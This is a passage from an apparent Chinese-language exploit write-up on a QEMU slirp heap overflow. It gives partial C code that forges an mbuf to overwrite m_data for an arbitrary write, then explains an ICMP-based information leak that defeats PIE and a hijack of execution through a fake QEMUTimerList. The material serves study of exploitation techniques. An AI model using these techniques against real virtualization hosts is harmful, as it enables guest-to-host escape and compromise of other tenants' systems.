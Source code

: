 ```c
		//伪造mbuf，覆盖m_data指针
    // actual overflow here
    *payload64++ = 0;
    *payload64++ = 0x675; // chunk header
    *payload64++ = 0;     // m_next
    *payload64++ = 0;     // m_prev
    *payload64++ = 0;     // m_nextpkt
    *payload64++ = 0;     // m_prevpkt
    payload32 = (uint32_t *)payload64;
    *payload32++ = 0;     // m_flags
    *payload32++ = 0x608; // m_size
    payload64 = (uint64_t *)payload32;
    *payload64++ = 0; // m_so
    payload = (uint8_t *)payload64;
    assert(addr_len <= 8);
    for (i = 0; i < addr_len; ++i) {
        *payload++ = (addr >> (i * 8)) & 0xff; // 覆盖m_data指针
    }
    write(s, payload_start, (uint8_t *)payload - payload_start);
    // write(s, payload, 0x1000);
    ...
    //再次发送相同id且MF标志位为0的数据包，实现任意地址写
    pkt_info.ip_id = 0xdead;
    pkt_info.ip_off = 0x300 + 24;
    pkt_info.MF = 0;
    pkt_info.ip_p = 0xff;
    send_ip_pkt(&pkt_info, write_data, write_data_len);
```

### 信息泄露

因为程序开启了PIE，所以还需要信息泄露才能进一步利用。

信息泄露主要是利用伪造ICMP响应请求包，得到响应应答包实现。主要的步骤如下：

1. 溢出修改m_data的低位，在堆的前面写入一个伪造的ICMP包头。
2. 发送一个ICMP请求，将MF bit置位（1）。
3. 第二次溢出修改第二步的m_data的低位至伪造的包头地址。
4. 发送MF bit为0的包结束ICMP请求。
5. 得到ICMP应答包，实现信息泄露。

首先是利用堆溢出将m_data的低位覆盖（exp中是覆盖低3位为0x000b00），然后利用任意地址写将伪造的icmp包写入到该地址处；接着是发送一个ICMP响应请求包，并将其MF位置1，这样它会在队列中等待剩余的数据包；然后再利用溢出将第二步中的ICMP响应请求包的m_data的低位覆盖成伪造的ICMP请求包的位置，这样响应请求ICMP包的数据就变成了伪造的ICMP请求包；最后再发送一个MF为0的数据包结束该ICMP请求，将该伪造的请求发送出去；然后等待ICMP应答包，在应答包中可以得到程序地址以及堆地址，实现信息泄露。

### 程序执行流控制

有了程序地址和堆地址，再结合任意地址写，可以往任意地址写任何的数据，因此只要找到可以控制程序执行流的目标即可。结合作者给出的writeup与前面一系列文章，仍然可以利用`QEMUTimer`搞事情。

在bss段有个全局数组`main_loop_tlg`，它是QEMUTimerList的数组。我们可以在堆中伪造一个QEMUTimerList，将`cb`指针覆盖成想要执行的函数，`opaque`为参数地址。再将其地址覆盖到`main_loop_tlg`中，等expire_time时间到，将会执行`cb(opaque)`，成功控制程序执行流。

```c
// util/qemu-timer.c
struct QEMUTimerList {
    QEMUClock *clock;
    QemuMutex active_timers_lock;
    QEMUTimer *active_timers;
    QLIST_ENTRY(QEMUTimerList) list;
    QEMUTimerListNotifyCB *notify_cb;
    void *notify_opaque;

    /* lightweight method to mark the end of timerlist's running */
    QemuEvent timers_done_ev;
};

```